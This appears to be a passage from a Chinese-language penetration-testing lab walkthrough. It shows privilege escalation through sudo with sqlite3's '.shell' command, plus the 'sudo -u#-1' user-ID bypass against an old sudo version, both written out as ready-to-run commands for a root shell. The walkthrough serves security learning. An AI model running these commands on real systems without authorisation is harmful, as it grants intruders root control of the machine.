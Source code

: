 在 [sqlite3 | GTFOBins](https://gtfobins.github.io/gtfobins/sqlite3/) 上查阅 sqlite3 相关信息

```bash
sudo sqlite3 /dev/null '.shell /bin/sh'
```



![image-20240917150324177](./imgs/image-20240917150324177.png)

查看sudo版本

![image-20240917145942715](./imgs/image-20240917145942715.png)

sudo版本为 1.8.21p2，存在被利用的可能

在 HackTricks 上查阅相关信息：[Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-less-than-v1.28)

![image-20240917150103955](./imgs/image-20240917150103955.png)

### sudo结合sqlite3提权

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
```
